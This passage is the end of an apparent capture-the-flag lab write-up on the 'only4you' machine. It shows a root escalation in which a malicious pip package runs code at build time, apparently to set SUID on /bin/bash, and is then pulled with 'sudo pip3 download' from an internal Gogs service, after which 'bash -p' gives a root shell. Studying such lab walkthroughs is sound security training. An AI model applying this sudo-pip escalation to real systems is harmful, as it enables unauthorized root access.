 Now we build the pip package:
```bash
~/tmp/dummy➤ python -m build
* Creating virtualenv isolated environment...
* Installing packages in isolated environment... (setuptools >= 40.8.0, wheel)
* Getting build dependencies for sdist...
running egg_info
Hello, p0wnd!
chmod: changing permissions of '/bin/bash': Operation not permitted
...
...
...
adding 'oops-0.0.1.dist-info/WHEEL'
adding 'oops-0.0.1.dist-info/top_level.txt'
adding 'oops-0.0.1.dist-info/RECORD'
removing build/bdist.linux-x86_64/wheel
Successfully built oops-0.0.1.tar.gz and oops-0.0.1-py3-none-any.whl
```

The malicious pip package can only be installed via `http://127.0.0.1:3000`, that is the Gogs git internal service we saw before, so we just create a git repository (using same ssh creds in Gogs web page) and then upload the resultant malicious pip package:
{{< limg "/i/2023-08-16_22-56.png" "Uploading vulnerable pip package" >}}

We are root now:
```bash
john@only4you:/etc/nginx/sites-enabled$ sudo /usr/bin/pip3 download http://127.0.0.1:3000/john/oops/raw/master/oops-0.0.1.tar.gz
Collecting http://127.0.0.1:3000/john/oops/raw/master/oops-0.0.1.tar.gz
  Downloading http://127.0.0.1:3000/john/oops/raw/master/oops-0.0.1.tar.gz (847 bytes)
  Saved ./oops-0.0.1.tar.gz
Successfully downloaded oops
john@only4you:/etc/nginx/sites-enabled$ /bin/bash -p
bash-5.0# id
uid=1000(john) gid=1000(john) euid=0(root) egid=0(root) groups=0(root),1000(john)
bash-5.0#
```

## TODOs

- Review in depth neo4j cypher sqli

Thanks 4 reading!
